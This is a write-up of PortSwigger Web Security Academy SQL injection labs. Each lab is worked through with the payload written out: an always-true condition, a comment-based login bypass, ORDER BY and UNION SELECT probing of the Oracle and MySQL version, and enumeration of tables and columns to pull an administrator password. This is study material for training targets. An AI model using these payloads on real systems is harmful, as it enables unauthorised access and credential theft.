

# SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## Lab Description


The query used by the application is provided in the lab description:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This query retrieves information from the `products` table, specifically selecting products that belong to the `Gifts` category and have the condition `released = 1`, meaning the products have been released.

To see all products, we need to make this condition always `TRUE`:
```sql
Gifts' OR 1=1--
```
The condition `1=1` is always true, and `--` is used to start a comment in SQL, so everything after it is ignored.

# SQL Injection Vulnerability Allowing Login Bypass

## Lab Description


The query used in the lab might look something like this:
```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```
To bypass the `AND password = 'password'` condition, I inject into the username field using `--`:

```sql
WHERE username = 'administrator' --
```

This will result in a query like:
```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'
```


The final query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator';
```

# SQL Injection Attack: Querying the Database Type and Version on Oracle

## Lab Description


In Oracle, every `SELECT` statement must specify a table to select `FROM`. There is a table in Oracle that can be used for this purpose called `dual`.

There are two different methods to query the database version on Oracle:
- `SELECT banner FROM v$version`
- `SELECT version FROM v$instance`

To solve the lab, follow these steps to find the columns containing strings:

- First, determine the number of columns by injecting `' ORDER BY 1--`. Here, 1 is the column number. Continue increasing until an error occurs, which indicates the correct number of columns. For example, the result indicates there are 2 columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' ORDER BY 2--
  ```
- Next, check which columns contain strings by injecting `' UNION SELECT 'a','a' FROM DUAL--`. Both columns should be string columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' UNION SELECT 'a','a' FROM DUAL--
  ```
- Finally, to obtain the version information, inject `' UNION SELECT 'a', banner FROM v$version--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'
  ```

# SQL Injection Attack: Querying the Database Type and Version on MySQL and Microsoft

## Lab Description


The steps in this lab are almost identical to the lab [SQL Injection Attack: Querying the Database Type and Version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle).

The main difference is that in MySQL, comments can be started with `#`.

To query the database version:
- Inject `' UNION SELECT 'a', @@version#`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', @@version#'
  ```

# SQL Injection Attack: Listing the Database Contents on Oracle

## Lab Description


The database in use here is Oracle, with information for all tables stored in the `ALL_TABLES` view.

In this [document](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html), I am interested in the `table_name` column. So, I inject `' UNION SELECT table_name, null FROM all_tables--` and I see the table `USERS_XJIAWY`.

Steps:

- The [ALL_TAB_COLUMNS](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63) view holds information about the columns of the tables, specifically the `column_name` column. Inject `' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--
  ```
  I found the columns `USERNAME_HDFLSL` and `PASSWORD_VASGBS`.
- Next, use `' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--
  ```
  I found that the password for the `administrator` is `2ozd1e4np7yp6wc47rx3`.

- The last step is login to solve this lab.
